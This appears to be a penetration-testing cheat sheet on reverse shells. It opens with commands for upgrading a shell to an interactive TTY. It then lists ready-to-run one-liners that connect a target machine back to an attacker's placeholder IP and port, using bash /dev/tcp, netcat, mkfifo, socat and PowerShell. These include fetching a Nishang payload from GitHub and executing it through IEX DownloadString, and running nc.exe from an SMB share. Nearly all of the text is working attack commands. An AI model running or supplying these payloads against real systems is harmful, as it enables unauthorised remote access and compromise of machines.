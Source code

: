 # Reverse Shells

## Interactive TTYs

{% hint style="info" %}
It's also possible to use `rlwrap` when starting your listening socket. (e.g. `rlwrap nc -nlvp 443`)
{% endhint %}

```bash
script /dev/null -c bash
```

or

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and then

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```

## Reverse Shells

### Bash

```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### Ncat

```bash
nc -e /bin/bash <IP> <PORT>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### Socat

```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell (Nishang)

Run this on your local machine:

```bash
curl -sL https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o rs.ps1
echo "Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>" >> rs.ps1
python3 -m http.server 80
```

And while running the python http server, execute this on the target:

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<IP>/rs.ps1')"
```

### PowerShell (Ncat)

Locate "nc.exe" and copy it to your current directory, then run this on your local machine:

```bash
smbserver.py smbShare $(pwd) -smb2support
```

And while running the smb server, execute this on the target:

```batch
\\<IP>\smbShare\nc.exe -e cmd <IP> <PORT>
```

